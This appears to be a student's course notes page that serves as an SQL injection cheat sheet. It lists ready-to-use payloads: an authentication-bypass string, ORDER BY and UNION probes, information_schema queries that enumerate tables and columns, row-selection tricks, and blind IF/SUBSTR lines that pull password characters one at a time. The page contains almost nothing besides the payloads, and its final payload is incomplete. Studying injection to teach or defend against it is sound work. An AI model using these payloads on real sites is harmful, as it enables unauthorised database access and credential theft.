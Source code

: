 # SC Topic 4 - SQL Injection

###### tags: #SC 

## Table of Contents
```toc
```
## SQL Injection Cheat Sheet
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks (Use fillers to match number of columns in table)
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union select 1,table_name,table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.columns where table_name='tablename'; -- - 
```
- Using LIMIT to limit number of rows to display
```
1' union select 1,column2,column3 from table_name LIMIT 1; -- - 
```
- Using OFFSET:
```
1' union select 1,column2,column3 from table_name OFFSET 3; -- - 
```
- Using CONCAT to add two strings together
```
1' union select concat("hello", "world")
```
- Using the CHAR function to convert ASCII values to character values
```
PRINT 'a' + CHAR(9)  + 'b' -- horizontal tab 
PRINT 'a' + CHAR(10) + 'b' -- line feed 
PRINT 'a' + CHAR(11) + 'b' -- vertical tab 
PRINT 'a' + CHAR(13) + 'b' -- carriage return
```
- Attacking with IF and SUBSTRNG statements
```
0' or userid=if([condition], '1', '0'); -- - 
0' or userid=if(select substr(password,1,1) from user where userid)
```